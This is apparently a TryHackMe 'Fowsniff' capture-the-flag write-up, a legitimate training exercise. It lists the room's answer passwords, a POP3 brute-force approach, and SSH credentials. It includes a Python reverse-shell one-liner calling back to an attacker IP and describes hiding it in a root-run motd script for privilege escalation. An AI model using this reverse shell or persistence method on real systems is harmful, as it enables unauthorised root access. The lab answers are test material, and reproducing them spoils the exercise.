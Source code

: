 # TryHackMe Fowsniff

# Saikat Karmakar | Jan 13:2021

# Task 1
1. What was seina's password to the email service?
```
scoobydoo2 
```
2. Looking through her emails, what was a temporary password set for her?
```
S1ck3nBluff+secureshell
```


***Notes***
```
awk -F'@' '{print $1}' fowsniff.txt > users.txt

sed -n 's/.*://p' cracked.txt > pass.txt
```

use auxiliary/scanner/pop3/pop3_login to bruteforce the pop3
```
user = seina
pass = scoobydoo2
```
ssh creds
```
user = baksteen
pass = S1ck3nBluff+secureshell
```


python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.23.120",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

put the rev shell in the cube.sh as we can see in the /etc/update-motd.d/ folder that the file run as root evertytime a user logs in via SSH


flag
```
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```
